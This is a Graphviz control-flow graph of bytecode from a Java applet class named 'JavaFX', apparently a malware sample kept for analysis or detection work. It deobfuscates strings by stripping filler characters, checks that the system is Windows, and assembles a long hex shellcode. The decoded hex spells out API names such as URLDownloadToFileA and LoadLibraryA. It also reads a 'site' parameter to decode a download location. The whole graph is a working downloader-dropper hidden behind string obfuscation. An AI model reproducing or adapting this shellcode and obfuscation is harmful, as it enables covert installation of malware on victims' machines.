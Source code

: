 digraph "" {
    "r0 := @this: JavaFX"
    "push 47"
    "r0 := @this: JavaFX"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <JavaFX: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <JavaFX: java.lang.String repeat(char,int)>";
    "store.r r285"
    "staticinvoke <JavaFX: java.lang.String repeat(char,int)>"->"store.r r285";
    "push \"zzozzzzzs.nzzzame\""
    "store.r r285"->"push \"zzozzzzzs.nzzzame\"";
    "push \"z\""
    "push \"zzozzzzzs.nzzzame\""->"push \"z\"";
    "push \"\""
    "push \"z\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"wgggging\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"wgggging\"";
    "push \"g\""
    "push \"wgggging\""->"push \"g\"";
    "push \"g\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge new java.lang.StringBuilder";
    "return"
    "ifge new java.lang.StringBuilder"->"return";
    "new java.lang.StringBuilder"
    "ifge new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"fccccicccleccc://\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"fccccicccleccc://\"";
    "push \"c\""
    "push \"fccccicccleccc://\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r285"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r285";
    "load.r r285"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Z%Z%Z%Z@%Z%@@@@\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Z%Z%Z%Z@%Z%@@@@\"";
    "push \"@\""
    "push \"Z%Z%Z%Z%Z@%Z%@@@@\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r285";
    "store.r r285"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"444454404444444544354444152444546444544444754445449CE8\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"444454404444444544354444152444546444544444754445449CE8\"";
    "push \"4\""
    "push \"444454404444444544354444152444546444544444754445449CE8\""->"push \"4\"";
    "push \"4\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00NNNN0NNNN000NNN0NNNN0NNNNNN5NNNDNN83ED0NNNDNN3NN1NNNCN0NNN6NNNN4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00NNNN0NNNN000NNN0NNNN0NNNNNN5NNNDNN83ED0NNNDNN3NN1NNNCN0NNN6NNNN4\"";
    "push \"N\""
    "push \"00NNNN0NNNN000NNN0NNNN0NNNNNN5NNNDNN83ED0NNNDNN3NN1NNNCN0NNN6NNNN4\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0Z3ZZZZ4030780ZCZ8ZZZBZZ4ZZZ00ZZCZZ8B701ZZZZZZZC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0Z3ZZZZ4030780ZCZ8ZZZBZZ4ZZZ00ZZCZZ8B701ZZZZZZZC\"";
    "push \"Z\""
    "push \"0Z3ZZZZ4030780ZCZ8ZZZBZZ4ZZZ00ZZCZZ8B701ZZZZZZZC\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AccD8ccccB4c008EBc0cccc98Bcccc4ccccc03ccc4cccc8Dccc407C8cB4c0cc3ccccC56\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AccD8ccccB4c008EBc0cccc98Bcccc4ccccc03ccc4cccc8Dccc407C8cB4c0cc3ccccC56\"";
    "push \"AccD8ccccB4c008EBc0cccc98Bcccc4ccccc03ccc4cccc8Dccc407C8cB4c0cc3ccccC56\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"57BEI5E0I1IIII000IIII0III01\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"57BEI5E0I1IIII000IIII0III01\"";
    "push \"I\""
    "push \"57BEI5E0I1IIII000IIII0III01\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lllElllElllBFlllll4E010ll0ll00ll0lll1EllFllE8Dll60llll1l0lll000lll5lF5E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lllElllElllBFlllll4E010ll0ll00ll0lll1EllFllE8Dll60llll1l0lll000lll5lF5E\"";
    "push \"l\""
    "push \"lllElllElllBFlllll4E010ll0ll00ll0lll1EllFllE8Dll60llll1l0lll000lll5lF5E\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"89@EA81@@@@C2@5E@0@@@100@@@@@@@0@@@052@@@688@@00000@@@@00F@@F@@@95@4E@@01@@0@@@@00@@08@@@9E@@A8@@1@@@C@25@@E0@@@@\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"89@EA81@@@@C2@5E@0@@@100@@@@@@@0@@@052@@@688@@00000@@@@00F@@F@@@95@4E@@01@@0@@@@00@@08@@@9E@@A8@@1@@@C@25@@E0@@@@\"";
    "push \"89@EA81@@@@C2@5E@0@@@100@@@@@@@0@@@052@@@688@@00000@@@@00F@@F@@@95@4E@@01@@0@@@@00@@08@@@9E@@A8@@1@@@C@25@@E0@@@@\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PPP1000PPPP031FP6PP0PPPPPPP1C2PPPP8A9C35PPP6PPP3020PPP00P0P8PPP0FBPP0PP0740PPPP6PP881PPPCPPP3P2PPPPP46PPPPEPPPPBPEPPPEPPPPPC6043PPPP20089PPPPEAPPPP81PPCP2PP4PP5PP020PPPP000P5PPPP2FF95PP5201PPPP0PP00PP0PPP89PPEPPPPPPPAP8PP1PPPC2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PPP1000PPPP031FP6PP0PPPPPPP1C2PPPP8A9C35PPP6PPP3020PPP00P0P8PPP0FBPP0PP0740PPPP6PP881PPPCPPP3P2PPPPP46PPPPEPPPPBPEPPPEPPPPPC6043PPPP20089PPPPEAPPPP81PPCP2PP4PP5PP020PPPP000P5PPPP2FF95PP5201PPPP0PP00PP0PPP89PPEPPPPPPPAP8PP1PPPC2\"";
    "push \"P\""
    "push \"PPP1000PPPP031FP6PP0PPPPPPP1C2PPPP8A9C35PPP6PPP3020PPP00P0P8PPP0FBPP0PP0740PPPP6PP881PPPCPPP3P2PPPPP46PPPPEPPPPBPEPPPEPPPPPC6043PPPP20089PPPPEAPPPP81PPCP2PP4PP5PP020PPPP000P5PPPP2FF95PP5201PPPP0PP00PP0PPP89PPEPPPPPPPAP8PP1PPPC2\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"54440402404404444004445254444440FF955601044440004446A006A008449444EA444481C44444244445444E440444410044400445424444849444EA48441C2444474480444420004404524446444A44440044F4444F44D4440444464444A04445489E4A81C254E044441000444\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"54440402404404444004445254444440FF955601044440004446A006A008449444EA444481C44444244445444E440444410044400445424444849444EA48441C2444474480444420004404524446444A44440044F4444F44D4440444464444A04445489E4A81C254E044441000444\"";
    "push \"54440402404404444004445254444440FF955601044440004446A006A008449444EA444481C44444244445444E440444410044400445424444849444EA48441C2444474480444420004404524446444A44440044F4444F44D4440444464444A04445489E4A81C254E044441000444\""->"push \"4\"";
    "push \"4\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0eee52eFeeeeFeeee9eeee55A0100eeee0089eeeeeeeEeeA81eeCeeee2e5E0ee1eee00eeee00526eeeee8eeee80eeee0eee000eeeeeeee0ee0FFeeee9eee54eeEeeeee0e1eee0eee000eeee89EAee81Ceeee2ee5E01eee00eee0e0eee3eeee1Fee601Ceeeee28eAeee9C356Eeee0eeee20eee0eeeee0eeee0e80e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0eee52eFeeeeFeeee9eeee55A0100eeee0089eeeeeeeEeeA81eeCeeee2e5E0ee1eee00eeee00526eeeee8eeee80eeee0eee000eeeeeeee0ee0FFeeee9eee54eeEeeeee0e1eee0eee000eeee89EAee81Ceeee2ee5E01eee00eee0e0eee3eeee1Fee601Ceeeee28eAeee9C356Eeee0eeee20eee0eeeee0eeee0e80e\"";
    "push \"e\""
    "push \"0eee52eFeeeeFeeee9eeee55A0100eeee0089eeeeeeeEeeA81eeCeeee2e5E0ee1eee00eeee00526eeeee8eeee80eeee0eee000eeeeeeee0ee0FFeeee9eee54eeEeeeee0e1eee0eee000eeee89EAee81Ceeee2ee5E01eee00eee0e0eee3eeee1Fee601Ceeeee28eAeee9C356Eeee0eeee20eee0eeeee0eeee0e80e\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FBS0SS07406SSS88S1C32SSS4SSS6SSSEBEECSSS604320SS089ESSSASSSS8SS1SSC24SS5SSS0SS2S00S0SSSS0SSSSS52SSSFFSSS9SSSS55SSSSSSSS201SSSS0S00089SSSSEA81SC25SSSS0SSSS0SSSS2SSSS000SSS05SSSSS2SSSS5S0SSFFS95560SS100SSSSS00SSSSS6SSSSA006\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FBS0SS07406SSS88S1C32SSS4SSS6SSSEBEECSSS604320SS089ESSSASSSS8SS1SSC24SS5SSS0SS2S00S0SSSS0SSSSS52SSSFFSSS9SSSS55SSSSSSSS201SSSS0S00089SSSSEA81SC25SSSS0SSSS0SSSS2SSSS000SSS05SSSSS2SSSS5S0SSFFS95560SS100SSSSS00SSSSS6SSSSA006\"";
    "push \"S\""
    "push \"FBS0SS07406SSS88S1C32SSS4SSS6SSSEBEECSSS604320SS089ESSSASSSS8SS1SSC24SS5SSS0SS2S00S0SSSS0SSSSS52SSSFFSSS9SSSS55SSSSSSSS201SSSS0S00089SSSSEA81SC25SSSS0SSSS0SSSS2SSSS000SSS05SSSSS2SSSS5S0SSFFS95560SS100SSSSS00SSSSS6SSSSA006\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A0SS0SSSS89ESSSSA81C25ESSSSS0S1SSSS00SSS00SSS5289ESSSSSSSA81SSSSSC2SSSSA6020SSS0SSSS0SSSS0S5S2SS6SA0SS0FFD0SSSS6A0SSS58SSSS9SSSESSSSA81C25SSSE01S0S00SSSS0S52SSSSFF955ASSSS0S1SSSS00SSSSS00S9D5DS5FS5E5ASS5SSS95SBSS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A0SS0SSSS89ESSSSA81C25ESSSSS0S1SSSS00SSS00SSS5289ESSSSSSSA81SSSSSC2SSSSA6020SSS0SSSS0SSSS0S5S2SS6SA0SS0FFD0SSSS6A0SSS58SSSS9SSSESSSSA81C25SSSE01S0S00SSSS0S52SSSSFF955ASSSS0S1SSSS00SSSSS00S9D5DS5FS5E5ASS5SSS95SBSS\"";
    "push \"A0SS0SSSS89ESSSSA81C25ESSSSS0S1SSSS00SSS00SSS5289ESSSSSSSA81SSSSSC2SSSSA6020SSS0SSSS0SSSS0S5S2SS6SA0SS0FFD0SSSS6A0SSS58SSSS9SSSESSSSA81C25SSSE01S0S00SSSS0S52SSSSFF955ASSSS0S1SSSS00SSSSS00S9D5DS5FS5E5ASS5SSS95SBSS\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hhh5hhhhh8C3hhh0h00hh0hhhh0hhh00000hhh0hhh0h0hh00000000000000hhhh00hhhh0hhh00hhh47hhh65h74h54hhhhh65hhhhh6hD70506h174hh6hhhh8h4hhhh10h0hh4Chh6hhF6hhh16h44hChh69hhh62h7261hhh727hhhh941hh00476h57h4hhh5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hhh5hhhhh8C3hhh0h00hh0hhhh0hhh00000hhh0hhh0h0hh00000000000000hhhh00hhhh0hhh00hhh47hhh65h74h54hhhhh65hhhhh6hD70506h174hh6hhhh8h4hhhh10h0hh4Chh6hhF6hhh16h44hChh69hhh62h7261hhh727hhhh941hh00476h57h4hhh5\"";
    "push \"h\""
    "push \"hhh5hhhhh8C3hhh0h00hh0hhhh0hhh00000hhh0hhh0h0hh00000000000000hhhh00hhhh0hhh00hhh47hhh65h74h54hhhhh65hhhhh6hD70506h174hh6hhhh8h4hhhh10h0hh4Chh6hhF6hhh16h44hChh69hhh62h7261hhh727hhhh941hh00476h57h4hhh5\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"07XXX26XXXXF6X3X416XX4XX647265XXX737XXXX30X057696XXXXE457XXX8X6XXX56XXXX300BBXXX89XXXFXXX2XXXXXX8XXXX9FXXXX730CXXXX0XAEXXXX75XFDXX2XXXXXX9F7X89FXXXX93XX1XXXXXXC0BXXE3XC0XXX0XX00XXXX0XXXX003B51XXXXXB02XXX0XXXXXX0X0066\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"07XXX26XXXXF6X3X416XX4XX647265XXX737XXXX30X057696XXXXE457XXX8X6XXX56XXXX300BBXXX89XXXFXXX2XXXXXX8XXXX9FXXXX730CXXXX0XAEXXXX75XFDXX2XXXXXX9F7X89FXXXX93XX1XXXXXXC0BXXE3XC0XXX0XX00XXXX0XXXX003B51XXXXXB02XXX0XXXXXX0X0066\"";
    "push \"X\""
    "push \"07XXX26XXXXF6X3X416XX4XX647265XXX737XXXX30X057696XXXXE457XXX8X6XXX56XXXX300BBXXX89XXXFXXX2XXXXXX8XXXX9FXXXX730CXXXX0XAEXXXX75XFDXX2XXXXXX9F7X89FXXXX93XX1XXXXXXC0BXXE3XC0XXX0XX00XXXX0XXXX003B51XXXXXB02XXX0XXXXXX0X0066\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lAllllDllllll03851lllB020l000lllll8B7ll07ll88lll3C6ll1C03llB51lllB0llllll2llll00008DBlllD1Fl02llll0ll0ll0llll0lllAlDlll03851B02l00ll00lABADllll038lllllll5l1llBll020l00llll05lll0llllABlAD03l851B0lll2lll0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lAllllDllllll03851lllB020l000lllll8B7ll07ll88lll3C6ll1C03llB51lllB0llllll2llll00008DBlllD1Fl02llll0ll0ll0llll0lllAlDlll03851B02l00ll00lABADllll038lllllll5l1llBll020l00llll05lll0llllABlAD03l851B0lll2lll0\"";
    "push \"lAllllDllllll03851lllB020l000lllll8B7ll07ll88lll3C6ll1C03llB51lllB0llllll2llll00008DBlllD1Fl02llll0ll0ll0llll0lllAlDlll03851B02l00ll00lABADllll038lllllll5l1llBll020l00llll05lll0llllABlAD03l851B0lll2lll0\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00zzz0zzABzz5E31DBADzz5zzzz6zz0z3z8zzzz5zzzz1Bzzzz0zzzzzzzz2zz000z08zzz9Czzz6zz89Dz751FzzCzFzzzz3zzzzzA6zzz59z74045zzzzzE4z3zzzzEBzEzzzzzz95Ezzzzz93zDzz1E0zzzzzzz0zz38527020000z31F69zz6zzzz66AzzzzDC1E00zzzz203zz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00zzz0zzABzz5E31DBADzz5zzzz6zz0z3z8zzzz5zzzz1Bzzzz0zzzzzzzz2zz000z08zzz9Czzz6zz89Dz751FzzCzFzzzz3zzzzzA6zzz59z74045zzzzzE4z3zzzzEBzEzzzzzz95Ezzzzz93zDzz1E0zzzzzzz0zz38527020000z31F69zz6zzzz66AzzzzDC1E00zzzz203zz\"";
    "push \"00zzz0zzABzz5E31DBADzz5zzzz6zz0z3z8zzzz5zzzz1Bzzzz0zzzzzzzz2zz000z08zzz9Czzz6zz89Dz751FzzCzFzzzz3zzzzzA6zzz59z74045zzzzzE4z3zzzzEBzEzzzzzz95Ezzzzz93zDzz1E0zzzzzzz0zz38527020000z31F69zz6zzzz66AzzzzDC1E00zzzz203zz\""->"push \"z\"";
    "push \"z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8XX51F020XXXX000XX89CXX6AXXXXXXXD03XX85XXXXX1B020000XXXC3EBXX1X00XXXX0XXX0XX00XXXXX0XXX00XXX00XXX000XX000XXX00000XXXXX0XX0XXXXX0X0XXXXX0000XXX0X0XXXX08XXXXXXX985XXXX1BX0X20XXXX0XXXX005XXXX657XXXE8XX58FFXXXXFXXFFFXXX5XXXF5XXXX\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8XX51F020XXXX000XX89CXX6AXXXXXXXD03XX85XXXXX1B020000XXXC3EBXX1X00XXXX0XXX0XX00XXXXX0XXX00XXX00XXX000XX000XXX00000XXXXX0XX0XXXXX0X0XXXXX0000XXX0X0XXXX08XXXXXXX985XXXX1BX0X20XXXX0XXXX005XXXX657XXXE8XX58FFXXXXFXXFFFXXX5XXXF5XXXX\"";
    "push \"8XX51F020XXXX000XX89CXX6AXXXXXXXD03XX85XXXXX1B020000XXXC3EBXX1X00XXXX0XXX0XX00XXXXX0XXX00XXX00XXX000XX000XXX00000XXXXX0XX0XXXXX0X0XXXXX0000XXX0X0XXXX08XXXXXXX985XXXX1BX0X20XXXX0XXXX005XXXX657XXXE8XX58FFXXXXFXXFFFXXX5XXXF5XXXX\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EA;;;B;;0;;1CE;8;;;03;;E;;;B;;;B;;;7;;4;;;02;;;;EBED;C;;3;55524C;;4;;;D4;;F;;;;4E2;;;E44;;4;;;;C4;;C00;;55;524;;;C4;;46F776E;;6C6F;;;;6;;;1;;;;6;;;4;;;;;54;;;;;;;;6;;;F;;4;;6;69;;;;6C;6;;5;;;41;00;;;7;;064;66757;;0;;64;;;;2;;;;E65786;500;;;;63;7;;2617;;3682;;;;E70;;6;;8;70;;0;0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EA;;;B;;0;;1CE;8;;;03;;E;;;B;;;B;;;7;;4;;;02;;;;EBED;C;;3;55524C;;4;;;D4;;F;;;;4E2;;;E44;;4;;;;C4;;C00;;55;524;;;C4;;46F776E;;6C6F;;;;6;;;1;;;;6;;;4;;;;;54;;;;;;;;6;;;F;;4;;6;69;;;;6C;6;;5;;;41;00;;;7;;064;66757;;0;;64;;;;2;;;;E65786;500;;;;63;7;;2617;;3682;;;;E70;;6;;8;70;;0;0\"";
    "push \";\""
    "push \"EA;;;B;;0;;1CE;8;;;03;;E;;;B;;;B;;;7;;4;;;02;;;;EBED;C;;3;55524C;;4;;;D4;;F;;;;4E2;;;E44;;4;;;;C4;;C00;;55;524;;;C4;;46F776E;;6C6F;;;;6;;;1;;;;6;;;4;;;;;54;;;;;;;;6;;;F;;4;;6;69;;;;6C;6;;5;;;41;00;;;7;;064;66757;;0;;64;;;;2;;;;E65786;500;;;;63;7;;2617;;3682;;;;E70;;6;;8;70;;0;0\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r46"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r46";
    "load.r r0"
    "store.r r46"->"load.r r0";
    "push \"6sit6666e\""
    "load.r r0"->"push \"6sit6666e\"";
    "push \"6\""
    "push \"6sit6666e\""->"push \"6\"";
    "push \"6\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <JavaFX: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <JavaFX: java.lang.String getParameter(java.lang.String)>";
    "push \"0UUUUU090\""
    "virtualinvoke <JavaFX: java.lang.String getParameter(java.lang.String)>"->"push \"0UUUUU090\"";
    "push \"U\""
    "push \"0UUUUU090\""->"push \"U\"";
    "push \"U\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r67"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r67";
    "staticinvoke <JavaFXColor: java.lang.String decodeString(java.lang.String)>"
    "store.r r67"->"staticinvoke <JavaFXColor: java.lang.String decodeString(java.lang.String)>";
    "store.r r324"
    "staticinvoke <JavaFXColor: java.lang.String decodeString(java.lang.String)>"->"store.r r324";
    "store.r r324"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
